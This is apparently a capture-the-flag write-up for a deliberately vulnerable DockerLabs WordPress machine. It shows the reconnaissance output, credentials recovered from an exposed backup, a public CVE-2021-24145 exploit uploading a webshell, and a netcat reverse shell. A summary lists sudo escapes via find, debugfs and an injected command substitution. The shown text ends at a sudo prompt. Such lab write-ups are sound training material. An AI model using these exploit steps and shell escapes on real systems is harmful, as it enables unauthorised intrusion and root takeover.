






# whoiam

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| whoiam | 0xR0_ | easy/facil | dockerlabs |

**Summary:** The whoiam machine was a WordPress exploitation challenge chaining credential recovery from a leaked database backup, an authenticated plugin arbitrary file upload, and three nested sudo privilege escalations. The port scan exposed Apache HTTP on port 80 running WordPress 6.5.4. Directory enumeration found a `backups` directory containing `databaseback2may.zip`, which was downloaded and extracted to reveal a plaintext credentials table with the user `developer` and the password `2wmy3KrGDRD%RsA7Ty5n71L^`. A WPScan plugin enumeration identified `modern-events-calendar-lite` version 5.16.2, which is vulnerable to the authenticated arbitrary file upload flaw tracked as CVE-2021-24145. The public PoC for that CVE was run with the recovered credentials and successfully uploaded a webshell to `wp-content/uploads/shell.php`. Triggering it returned a reverse shell as `www-data`. The `www-data` user could run `/usr/bin/find` as `rafa` without a password, and the GTFOBins `find` technique with `-exec /bin/bash \; -quit` switched the session to `rafa`. In turn, `rafa` could run `/usr/sbin/debugfs` as `ruben`, and the debugfs shell escape `!/bin/bash` escalated to `ruben`. Finally, `ruben` could run `/bin/bash /opt/penguin.sh` as any user without a password, and because the script read user input into an arithmetic evaluation, a command substitution payload entered at the prompt executed `/bin/bash -p` as root, yielding a fully privileged shell.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/whoiam]
└─$ sudo bash auto_deploy.sh whoiam.tar
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                          
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/whoiam]
└─$ nmap -sC -sV -p- -T4 172.18.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 21:28 +0700
Nmap scan report for 172.18.0.2 (172.18.0.2)
Host is up (0.000010s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Whoiam
|_http-generator: WordPress 6.5.4
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: A6:82:1E:ED:31:78 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
```

The scan revealed a single open service, Apache HTTP on port 80, running a WordPress installation version 6.5.4.



**3. Directory Enumeration**

Directory brute-forcing was performed against the web root.

```bash
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ gobuster dir -u "http://172.18.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wp-content           (Status: 301) [Size: 313] [--> http://172.18.0.2/wp-content/]
wp-includes          (Status: 301) [Size: 314] [--> http://172.18.0.2/wp-includes/]
wp-admin             (Status: 301) [Size: 311] [--> http://172.18.0.2/wp-admin/]
backups              (Status: 301) [Size: 310] [--> http://172.18.0.2/backups/]
server-status        (Status: 403) [Size: 275]
Progress: 207641 / 207641 (100.00%)
===============================================================
Finished
===============================================================
```

Alongside the standard WordPress directories, Gobuster found an unusual `backups` directory.



**4. Recovering the Database Backup**

The `backups` directory contained a compressed database backup, which was downloaded and inspected.

```bash
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ wget http://172.18.0.2/backups/databaseback2may.zip
--2026-08-07 19:10:12--  http://172.18.0.2/backups/databaseback2may.zip
Connecting to 172.18.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 241 [application/zip]
Saving to: ‘databaseback2may.zip’

databaseback2may.zip       100%[=======================================>]     241  --.-KB/s    in 0s      

2026-08-07 19:10:12 (37.2 MB/s) - ‘databaseback2may.zip’ saved [241/241]

                                                                                                           
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ file databaseback2may.zip 
databaseback2may.zip: Zip archive data, made by v3.0 UNIX, extract using at least v2.0, last modified Jun 08 2024 17:27:16, uncompressed size 160, method=deflate
                                                                                                           
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ unzip databaseback2may.zip 
Archive:  databaseback2may.zip
  inflating: 29DBMay                 
                                                                                                           
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ ls -la                             
total 768976
drwxrwxr-x 2 kali kali      4096 Aug  7 19:10 .
drwxr-xr-x 4 kali kali      4096 Aug  7 18:53 ..
-rw-r--r-- 1 kali kali       160 Jun  8  2024 29DBMay
-rw-r--r-- 1 kali kali      5492 Jun  8  2024 auto_deploy.sh
-rw-rw-r-- 1 kali kali       241 Jun  8  2024 databaseback2may.zip
-rw-rw-r-- 1 kali kali 787402240 Jun  9  2024 whoiam.tar
                                                                                                           
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ cat 29DBMay                            
| Username  |         Password        |
|-----------|-------------------------|
| developer | 2wmy3KrGDRD%RsA7Ty5n71L^|
|-----------|-------------------------|
```

The extracted `29DBMay` file contained a credentials table with the username `developer` and the password `2wmy3KrGDRD%RsA7Ty5n71L^`.





**5. WordPress Plugin Enumeration**

WPScan was used to enumerate vulnerable plugins.

```bash
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ wpscan --url http://172.18.0.2/ -e vp --api-token $token  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.18.0.2/ [172.18.0.2]
[+] Started: Fri Aug  7 19:31:35 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.18.0.2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.18.0.2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://172.18.0.2/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.18.0.2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.4 identified (Insecure, released on 2024-06-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://172.18.0.2/index.php/feed/, <generator>https://wordpress.org/?v=6.5.4</generator>
 |  - http://172.18.0.2/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.4</generator>
 |
 | [!] 12 vulnerabilities identified:
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in HTML API
 |     Fixed in: 6.5.5
 |     References:
 |      - https://wpscan.com/vulnerability/2c63f136-4c1f-4093-9a8c-5e51f19eae28
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in Template-Part Block
 |     Fixed in: 6.5.5
 |     References:
 |      - https://wpscan.com/vulnerability/7c448f6d-4531-4757-bff0-be9e3220bbbb
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Path Traversal in Template-Part Block
 |     Fixed in: 6.5.5
 |     References:
 |      - https://wpscan.com/vulnerability/36232787-754a-4234-83d6-6ded5e80251c
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS
 |     Fixed in: 6.5.7
 |     References:
 |      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-cross-site-scripting-xss-vulnerability
 |      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure
 |     Fixed in: 6.5.7
 |     References:
 |      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-sensitive-data-exposure-vulnerability
 |      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 7.0.3 - Subscriber+ Email Change Confirmation Bypass
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/5ca38157-6fae-4271-a242-2a8584505d1e
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Unauthenticated Blind SSRF
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/e1b9918e-1db9-4d95-be44-3241e52946eb
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Author+ CSS Injection
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/1e4f9122-22b9-4fa2-913a-6e84d31ec14c
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Unauthenticated Non-Public Post Type Slug Disclosure
 |     Fixed in: 7.0.3
 |     References:
 |      - https://wpscan.com/vulnerability/cc82dffb-16ea-4ae1-a513-e3ada8e574a0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5692
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Contributor+ Stored XSS in Quick Edits
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/72b68d3f-77a0-47dd-9624-e3631409a352
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Subscriber+ Arbitrary Site Creation on Multisite
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/b9b44801-3260-4f5a-a4cb-74f2de87e0d1
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/
 |
 | [!] Title: WP < 7.0.3 - Reflected XSS
 |     Fixed in: 6.5.9
 |     References:
 |      - https://wpscan.com/vulnerability/4594236f-c7ad-41d6-945b-170eaabe2b75
 |      - https://wordpress.org/news/2026/08/wordpress-7-0-3-release/

[+] WordPress theme in use: twentytwentyfour
 | Location: http://172.18.0.2/wp-content/themes/twentytwentyfour/
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: http://172.18.0.2/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 | Style URL: http://172.18.0.2/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://172.18.0.2/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] modern-events-calendar-lite
 | Location: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 20 vulnerabilities identified:
 |
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Authenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 5.16.5
 |     References:
 |      - https://wpscan.com/vulnerability/0f9ba284-5d7e-4092-8344-c68316b0146f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24147
 |
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Unauthenticated Events Export
 |     Fixed in: 5.16.5
 |     References:
 |      - https://wpscan.com/vulnerability/c7b1ebd6-3050-4725-9c87-0ea525f8fecc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24146
 |
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Authenticated Arbitrary File Upload leading to RCE
 |     Fixed in: 5.16.5
 |     References:
 |      - https://wpscan.com/vulnerability/f42cc26b-9aab-4824-8168-b5b8571d1610
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24145
 |
 | [!] Title: Modern Events Calendar Lite < 5.16.6 - Authenticated SQL Injection
 |     Fixed in: 5.16.6
 |     References:
 |      - https://wpscan.com/vulnerability/26819680-22a8-4348-b63d-dc52c0d50ed0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24149
 |
 | [!] Title: Modern Events Calendar Lite < 5.22.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 5.22.2
 |     References:
 |      - https://wpscan.com/vulnerability/300ba418-63ed-4c03-9031-263742ed522e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24687
 |
 | [!] Title: Modern Events Calendar Lite < 5.22.3 - Authenticated Stored Cross Site Scripting
 |     Fixed in: 5.22.3
 |     References:
 |      - https://wpscan.com/vulnerability/576cc93d-1499-452b-97dd-80f69002e2a0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24716
 |
 | [!] Title: Modern Events Calendar < 6.1.5 - Unauthenticated Blind SQL Injection
 |     Fixed in: 6.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/09871847-1d6a-4dfe-8a8c-f2f53ff87445
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24946
 |
 | [!] Title: Modern Events Calendar Lite < 6.1.5 - Reflected Cross-Site Scripting
 |     Fixed in: 6.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/82233588-6033-462d-b886-a8ef5ee9adb0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24925
 |
 | [!] Title: Modern Events Calendar Lite < 6.2.0 - Subscriber+ Category Add Leading to Stored XSS
 |     Fixed in: 6.2.0
 |     References:
 |      - https://wpscan.com/vulnerability/19c2f456-a41e-4755-912d-13683719bae6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25046
 |
 | [!] Title: Modern Events Calendar Lite < 6.4.0 - Contributor+ Stored Cross Site Scripting
 |     Fixed in: 6.4.0
 |     References:
 |      - https://wpscan.com/vulnerability/0eb40cd5-838e-4b53-994d-22cf7c8a6c50
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0364
 |
 | [!] Title: Modern Events Calendar Lite < 6.5.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 6.5.2
 |     References:
 |      - https://wpscan.com/vulnerability/ef2843d0-f84d-4093-a08b-342ed0848914
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27848
 |
 | [!] Title: Modern Events Calendar Lite < 6.3.0 - Authenticated Stored Cross-Site Scripting
 |     Fixed in: 6.3.0
 |     References:
 |      - https://wpscan.com/vulnerability/a614adad-6b3c-4566-b615-9dfcbdbed514
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30533
 |      - https://jvn.jp/en/jp/JVN04155116/
 |
 | [!] Title: Modern Events Calendar Lite < 6.4.7 - Reflected Cross-Site Scripting
 |     Fixed in: 6.4.7
 |     Reference: https://wpscan.com/vulnerability/4ecf4232-0a0f-4d20-981d-fd0f697d96a9
 |
 | [!] Title: Modern Events Calendar lite < 6.5.2 - Admin+ Stored XSS
 |     Fixed in: 6.5.2
 |     References:
 |      - https://wpscan.com/vulnerability/c7feceef-28f1-4cac-b124-4b95e3f17b07
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1400
 |
 | [!] Title: Modern Events Calendar lite < 7.1.0 - Authenticated (Admin+) Stored Cross-Site Scripting
 |     Fixed in: 7.1.0
 |     References:
 |      - https://wpscan.com/vulnerability/0b4286db-6c6f-4426-9506-314bf78e4905
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4021
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/f213fb42-5bab-4017-80ea-ce6543031af2
 |
 | [!] Title: Modern Events Calendar <= 7.11.0 - Authenticated (Subscriber+) Arbitrary File Upload
 |     Fixed in: 7.12.0
 |     References:
 |      - https://wpscan.com/vulnerability/2e33db28-12b1-43ea-845c-0f71e33ab8ae
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5441
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/0c007090-9d9b-4ee7-8f77-91abd4373051
 |
 | [!] Title: Modern Events Calendar <= 7.12.1 - Subscriber+ Server Side Request Forgery
 |     Fixed in: 7.13.0
 |     References:
 |      - https://wpscan.com/vulnerability/f43e294c-4fc2-4d9c-82b3-6551690f1b82
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6522
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/00bf8f2f-6ab4-4430-800b-5b97abe7589e
 |
 | [!] Title: Modern Events Calendar < 7.22 - Information Exposure
 |     Fixed in: 7.22
 |     References:
 |      - https://wpscan.com/vulnerability/b1e9378c-7ee9-4279-84d7-758f5582d7f4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-5733
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/e545b53e-7054-41dc-b69b-7552ef6c3240
 |
 | [!] Title: Modern Events Calendar Lite < 6.4.0 - Unauthenticated SQL Injection
 |     Fixed in: 6.4.0
 |     References:
 |      - https://wpscan.com/vulnerability/35b37cc9-05b7-454e-a9a2-8bc610dfc299
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4458
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/703ba736-5834-40f2-9cf6-a6a70a73e4d6
 |
 | [!] Title: Modern Events Calendar (Lite & Pro) < 7.34.0 - Unauthenticated SQL Injection via mec_list_load_more
 |     Fixed in: 7.34.0
 |     References:
 |      - https://wpscan.com/vulnerability/572229cb-8a09-406d-8623-7d6b553bfdde
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-11349
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Fri Aug  7 19:31:46 2026
[+] Requests Done: 38
[+] Cached Requests: 5
[+] Data Sent: 10.05 KB
[+] Data Received: 341.665 KB
[+] Memory used: 247.605 MB
[+] Elapsed time: 00:00:11
```

WPScan identified the plugin `modern-events-calendar-lite` version 5.16.2 with 20 known vulnerabilities, including an authenticated arbitrary file upload leading to remote code execution, tracked as CVE-2021-24145.

---

## Initial Access

**1. Running the CVE-2021-24145 Exploit**

The public exploit for CVE-2021-24145 was obtained from GitHub and executed with the recovered `developer` credentials.

```bash
use this:
https://github.com/dnr6419/CVE-2021-24145 
```

```bash
┌──(kali㉿kali)-[~/dl/whoiam/CVE-2021-24145]
└─$ python3 poc.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
/home/kali/dl/whoiam/CVE-2021-24145/poc.py:25: SyntaxWarning: invalid escape sequence '\ '
  / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___|

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme
                    


[+] Authentication successfull !

[+] Shell Uploaded to: http://172.18.0.2:80//wp-content/uploads/shell.php

```

The exploit authenticated with the `developer` account and uploaded a webshell to `wp-content/uploads/shell.php`.



**2. Setting Up the Listener**

A netcat listener was started on the attacking machine to catch the incoming shell.

```bash
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```



**3. Catching the Shell and Upgrading the TTY**

The uploaded shell returned a connection as `www-data`. Because the process lacked a TTY, the session was upgraded with `script` and fully stabilised.

```bash
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 36386
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ script -qc /bin/bash /dev/null
</wp-content/uploads$ script -qc /bin/bash /dev/null    
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                           
┌──(kali㉿kali)-[~/dl/whoiam]
└─$ stty raw -echo ; fg
[1]  + continued  nc -lvnp 4444

www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ export TERM=xterm
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ export SHELL=/bin/bash
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ stty rows 80 cols 130
```

**4. System Enumeration**

The local users and the sudo rights of `www-data` were inspected.

```bash
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ ls -la /home
total 16
drwxr-xr-x 1 root  root  4096 Jun  8  2024 .
drwxr-xr-x 1 root  root  4096 Aug  8 01:24 ..
drwxr-x--- 2 rafa  rafa  4096 Jun  8  2024 rafa
drwxr-x--- 2 ruben ruben 4096 Jun  8  2024 ruben
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo -l
Matching Defaults entries for www-data on 4332e68ad5d4:
